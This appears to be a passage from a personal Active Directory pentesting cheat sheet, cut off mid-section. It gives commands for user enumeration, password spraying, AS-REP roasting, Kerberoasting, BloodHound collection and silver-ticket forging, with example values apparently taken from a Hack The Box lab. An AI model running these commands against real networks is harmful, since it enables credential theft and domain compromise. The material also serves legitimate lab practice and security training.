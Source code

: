   Can be useful for enumerating users without credentials

* Kerbrute
  ```bash
  kerbrute userenum --dc dc.domain.com -d domain.com /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
  ```
  This will bruteforce users.

* RPC
  ```bash
  rpcclient -U '' -N <ip>
  enumdomusers
  querydispinfo
  ```
  Only users:
  ```bash
  rpcclient -U "" <ip> -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > userlist.txt
  ```

### Got usernames

* Bruteforce usernames as password
  ```bash
  nxc smb <ip> -u usernames.txt -p usernames.txt
  ```
  Try with winrm and rdp too and try once again with `--local-auth`\
  I can not stress enough about this, I lost count how many times I got creds from this
* Asreproasting
  ```bash
  nxc ldap <ip> -u user.txt -p '' --asreproast
  ```
  Crack hash with hashcat

### Got creds

* After getting credentials always enumerate smb shares, ldap, ftp, etc again with the newly gained credentials. Look for description of users in ldap as you might discover credentials for a higher privileged user
  ```bash
  nxc ldap <ip> -u 'username' -p 'password' --query "(objectClass=*)" "*"
  ```

* Kerberoasting
  ```bash
  GetUserSPNs.py -dc-ip <ip> domain.com/user -request
  ```
  Crack hash with hashcat.

* Bloodhound.py
  ```bash
  nxc ldap <ip> -u user -p pass --bloodhound -c All -ns <ip>
  ```
  Check outbound transitive object control

* If it is a service account try **silver ticket attack**. I will add an example with MS SQL
  ```bash
  ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>
  ```
  Ex:
  ```bash
  ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -spn TotesLegit/dc.sequel.htb administrator
  ```
  Now use ticket to login to the SQL service:
  ```bash
  KRB5CCNAME=administrator.ccache mssqlclient.py -k Administrator@dc.sequel.htb
  ```
  Enable xp\_cmdshell: